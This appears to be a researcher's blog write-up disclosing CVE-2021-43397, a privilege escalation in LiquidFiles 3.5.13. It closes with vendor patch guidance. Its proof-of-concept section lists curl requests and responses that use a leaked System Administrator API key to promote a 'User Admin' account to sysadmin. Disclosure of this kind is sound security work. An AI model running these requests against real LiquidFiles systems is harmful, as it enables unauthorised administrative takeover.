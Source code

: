 ```yaml
---
image: https://www.liquidfiles.com/assets/images/logo_144x144-362aae5506940de69ed13cf4f518a9d20ca5271f4e82934de4e31cb04f03a37a.png
categories: [cve, pentest]
---
```


![thumbnail](https://i.imgflip.com/62gg79.jpg)

## Executive summary

Me and 2 other collegues were performing a test for our customers and we discovered a Privilege Escalation from "User Admin" user to "System Administrator" user on LiquidFiles framework.

LiquidFiles is a secure file transfer system for person-to-person email communication. Using LiquidFiles API, a "User Admin" user could list all the application registered users, retrieving information such as their API keys, including those of the System Administrators. 

As per LiquidFiles documentation, API key is used as HTTP basic authentication in order to authenticate to the
LiquidFiles system. A malicious "User Admin" user, by using a "System Administrator"'s API key, can obtain the role of System Administrator and can administer all aspects of the LiquidFiles system.

The impact of a successful attack includes: obtaining access to all aspects of the LiquidFiles system of the application via the System Administrator API key.

This vulnerability was credited by MITRE with id: [CVE-2021-43397](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-43397) and the original publication is hosted on [packet storm](https://packetstormsecurity.com/files/164997/LiquidFiles-3.5.13-Privilege-Escalation.html).

## Proof of Concept

1. Get the API key of your own user-admins user
    ```bash
    cURL Request:
    curl -X POST -H "Accept: application/json" -H "Content-Type: application/json" -d '{"user":{"email":"[user-admins_user_mail]","password":"[CENSORED]"}}' https://[CENSORED]/login
    
    Response:
    {"user":{"api_key":"[user-admins_user_API_key]"}}
    ```

2. Get a sysadmins' API key
    ```bash
    cURL Request:
    curl -s -X GET --user "[user-admins_user_API_key]:x" -H "Accept:
    application/json" -H "Content-Type: application/json" https://
    [CENSORED]/admin/users

    Response:
    [TRUNCATED]
    {"user":
    {
        "id": "[CENSORED]",
        "email": "[CENSORED]",
        "name": "[CENSORED]",
        "group": "sysadmins",
        "max_file_size": 0,
        "filedrop": "disabled",
        "filedrop_email": "disabled",
        "api_key": "[sysadmins_user_API_key]",
        "ldap_authentication": "false",
        "locale": "",
        "time_zone": "",
        "strong_auth_type": "",
        "strong_auth_username": "",
        "delivery_action": "",
        "phone_number": "",
        "last_login_at": "2021-10-29 10:02:11 UTC",
        "last_login_ip": "[CENSORED]",
        "created_at": "2020-06-30 10:49:38 UTC"
    }
    },
    [TRUNCATED]
    ```

3. Modify the group of your own user-admins user from "user-admins" to "sysadmins"
    ```bash
    cURL Request:
    cat <<EOF | curl -s -X PUT --user "[sysadmins_user_API_key]:x" -H "Accept:
    application/json" -H "Content-Type: application/json" -d @- https://
    [CENSORED]/admin/users/<user-admins_user_id>
    {"user":
    {
        "name": "[user-admins_user_name]",
        "group": "sysadmins"
    }
    }
    EOF

    Response
    {"user":
        {
            "id": "[CENSORED]",
            "email": "[CENSORED]",
            "name": "[CENSORED]",
            "group": "sysadmins",
            "max_file_size": 0,
            "filedrop": "disabled",
            "filedrop_email": "disabled",
            "api_key": "[CENSORED]",
            "ldap_authentication": "true",
            "locale": "",
            "time_zone": "",
            "strong_auth_type": "",
            "strong_auth_username": "",
            "delivery_action": "",
            "phone_number": "",
            "last_login_at": "2021-11-03 13:31:58 UTC",
            "last_login_ip": "[CENSORED]",
            "created_at": "2021-03-03 11:48:37 UTC"
        }
    }
    ```

4. Verify that your own user-admins user is now a sysadmins one.
    ```bash
    cURL Request
    curl -X GET -H "Accept: application/json" -H "Content-Type:
    application/json" --user [user-admins_user_API_key]:x https://
    [CENSORED]/admin/users/<user-admins_user_id>

    Response
    {"user":
        {
            "id": "[CENSORED]",
            "email": "[CENSORED]",
            "name": "[CENSORED]",
            "group": "sysadmins",
            "max_file_size": 0,
            "filedrop": "disabled",
            "filedrop_email": "disabled",
            "api_key": "[CENSORED]",
            "ldap_authentication": "true",
            "locale": "",
            "time_zone": "",
            "strong_auth_type": "",
            "strong_auth_username": "",
            "delivery_action": "",
            "phone_number": "",
            "last_login_at": "2021-11-03 13:34:36 UTC",
            "last_login_ip": "[CENSORED]",
            "created_at": "2021-03-03 11:48:37 UTC"
        }
    }
    ```

## Mitigation and Remediation

To mitigate this vulnerability, the solution is to disable API calls for "Admins" group. Nevertheless, it is suggested to update the solution, as LiquidFiles released an [official patch](https://man.liquidfiles.com/release_notes/version_3-6-x.html) in version 3.6.3.


## Conclusion

It was great to discover this vulnerability and very satisfying to be awarded a CVE, I could get used to it :wink:. If you want a better article for this CVE, look at the one from my collegue [here](https://nananan.github.io/posts/liquid-files-cve/).